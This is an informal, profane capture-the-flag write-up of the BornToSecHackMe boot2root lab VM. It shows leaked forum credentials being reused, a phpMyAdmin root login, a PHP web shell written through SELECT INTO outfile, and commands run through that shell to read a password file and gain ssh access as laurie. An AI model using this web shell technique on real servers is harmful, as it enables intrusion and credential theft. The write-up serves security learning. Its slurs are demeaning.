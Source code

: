 # boot2root
what the fuck am i doing

# this looks like an intro to privilege escalation
The subject states that we need to get user and root access to this bullshit

## getting the IP address
Since I dk where the fuck to start, I'm thinking I need to maybe nmap scan the machine but wtf is the fucking IP address

**vm in local network**, you idiot, so I need address of local network, then I remembered, there's usually an *interface* created by vbox
```
$ ifconfig
vboxnet0: flags=8842<BROADCAST,RUNNING,SIMPLEX,MULTICAST> mtu 1500
        ether 0a:00:27:00:00:00 
$ arp -a
? (10.11.100.38) at b8:27:eb:f7:8f:b2 on en0 ifscope [ethernet]
```
running a dirb, there's a /forum route and a /webmail and /phpmyadmin, after clicking and doing stupid shit, there s a link users that lists the users in the forum and their posts

user **lmezard** posted a login failure thread
```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from
```
the stupid idiot entered the password in the login field, stupid fuck

using **lmezard:!q\]Ej?*5K5cy*AJ** it logs in to the forum, and it woooorks, ouh email **laurie@borntosec.net**

I'm suspecting its a webmail email and the retard uses the same password

HE DOES OR SHE, THEY whatever

found an email theeere 	**DB Access**
```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```
retard, used the root password to connect to phpmyadmin

*fucking hell wtf*, there s a forum_db, with a **mlf2_userdata** table with usernames and of course *encrypted* passwords, kill me

after googling how to execute command from phpmyadmin blah blah

found **https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/**, abt a phpmyadmin tkhwira
```
SELECT "<?php exec($_GET['cmd']);?>" INTO outfile '/var/www/forum/templates_c/khra.php'
Votre requête SQL a été exécutée avec succès ( Traitement en 0.0001 sec )

https://10.11.100.75/forum/templates_c/ikhane.php?cmd=whoami
www-data
```

fucking useless
```
https://10.11.100.75/forum/templates_c/ikhane.php?cmd=ls%20-al%20/home
total 0 drwxrwx--x 1 www-data root 60 Oct 13 2015 . drwxr-xr-x 1 root root 220 Jan 28 15:35 .. drwxr-x--- 2 www-data www-data 31 Oct 8 2015 LOOKATME drwxr-x--- 6 ft_root ft_root 156 Jun 17 2017 ft_root drwxr-x--- 3 laurie laurie 143 Oct 15 2015 laurie drwxr-x--- 1 laurie@borntosec.net laurie@borntosec.net 60 Oct 15 2015 laurie@borntosec.net dr-xr-x--- 2 lmezard lmezard 61 Oct 15 2015 lmezard drwxr-x--- 3 thor thor 129 Oct 15 2015 thor drwxr-x--- 4 zaz zaz 147 Oct 15 2015 zaz
```
**LOOKATME** directoryyyy
```
https://10.11.100.75/forum/templates_c/ikhane.php?cmd=ls%20-al%20/home/LOOKATME
total 1 drwxr-x--- 2 www-data www-data 31 Oct 8 2015 . drwxrwx--x 1 www-data root 60 Oct 13 2015 .. -rwxr-x--- 1 www-data www-data 25 Oct 8 2015 password
```
WTFFFF, 
```
https://10.11.100.75/forum/templates_c/ikhane.php?cmd=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```
tried ssh into the machine
```
$ ssh lmezard@10.11.100.75
lmezard@10.11.100.75's password:G!@M6f4Eatau{sF"
Permission denied, please try again.
```
nope, kill me, after several fucking attempts to ssh using user lmezard

Tried to login directly into machine without ssh,, and it logged in

```
$ whoami
lmezard
```
in working directory, there's 2 files, README and fun

the README tells us to complete the challenge and use the result to ssh using laurie user, ugh kill me

```
$ file fun
fun: POSIX tar archive (GNU)
```
trying to untar it didnt work, cat ing it dhows a few printfs, so i saved it into a file and grep the fuck out of it 
```
int main() { printf("M"); printf("Y"); printf(" "); printf("P"); printf("A"); printf("S"); printf("S"); printf("W"); printf("O"); printf("R"); printf("D");
printf(" "); printf("I"); printf("S"); printf(":"); printf(" "); printf("%c",getme1()); printf("%c",getme2()); printf("%c",getme3());
printf("%c",getme4()); printf("%c",getme5()); printf("%c",getme6()); printf("%c",getme7()); printf("%c",getme8()); printf("%c",getme9());
printf("%c",getme10()); printf("%c",getme11()); printf("%c",getme12()); printf("\n"); printf("Now SHA-256 it and submit");
```
niiice
```
char getme8() { return 'w'; }
char getme9() { return 'n'; }

char getme10() { return 'a'; }
char getme11() { return 'g'; }

char getme12() { return 'e'; } 
```
there's only theeeese, then random returns, so I wanna use a script to print all possible strings that can be made from the chars **hpeaIrtwnage**
```
treid to generate distinct combinations from a list of those characters, stupid idea

The password ends with **wnage**, then we're left with **hearptI**, so after stupid tries, it's **Iheartpwnage**, its SHA-256

**330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4**
```
$ ssh laurie@10.11.100.75
laurie@10.11.100.75's password:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
laurie@BornToSecHackMe:~$ whoami
laurie
```


